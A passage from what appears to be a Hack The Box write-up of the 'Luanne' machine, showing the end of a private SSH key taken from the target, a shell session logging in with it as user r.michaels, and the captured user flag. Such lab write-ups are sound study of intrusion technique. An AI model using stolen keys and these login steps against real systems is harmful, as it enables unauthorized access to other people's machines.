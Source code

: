 ```text
f2jJom8mmRLvGFOe0akCBV2NCGq/nJ4bn0B9vuexwEpxax4QAAAMEA44eCmj/6raALAYcO
D1UZwPTuJHZ/89jaET6At6biCmfaBqYuhbvDYUa9C3LfWsq+07/S7khHSPXoJD0DjXAIZk
N+59o58CG82wvGl2RnwIpIOIFPoQyim/T0q0FN6CIFe6csJg8RDdvq2NaD6k6vKSk6rRgo
IH3BXK8fc7hLQw58o5kwdFakClbs/q9+Uc7lnDBmo33ytQ9pqNVuu6nxZqI2lG88QvWjPg
nUtRpvXwMi0/QMLzzoC6TJwzAn39GXAAAAwQDVMhwBL97HThxI60inI1SrowaSpMLMbWqq
189zIG0dHfVDVQBCXd2Rng15eN5WnsW2LL8iHL25T5K2yi+hsZHU6jJ0CNuB1X6ITuHhQg
QLAuGW2EaxejWHYC5gTh7jwK6wOwQArJhU48h6DFl+5PUO8KQCDBC9WaGm3EVXbPwXlzp9
9OGmTT9AggBQJhLiXlkoSMReS36EYkxEncYdWM7zmC2kkxPTSVWz94I87YvApj0vepuB7b
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

I was finally able to get it by removing the specification for curl to interpret what it was pulling through the HTTP protocol

### User.txt

```text
zweilos@kali:~/htb/luanne$ chmod 600 r.michaels.key 
zweilos@kali:~/htb/luanne$ ssh -i r.michaels.key r.michaels@10.10.10.218
Last login: Sat Mar 27 21:16:20 2021 from 10.10.14.220
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id && whoami
uid=1000(r.michaels) gid=100(users) groups=100(users)
r.michaels
luanne$ ls -la
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
dr-x------  2 r.michaels  users   512 Sep 16  2020 public_html
-r--------  1 r.michaels  users    33 Sep 16  2020 user.txt
luanne$ cat user.txt
ea5f0ce6a917b0be1eabc7f9218febc0
```

got the user.txt flag

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `r.michaels`
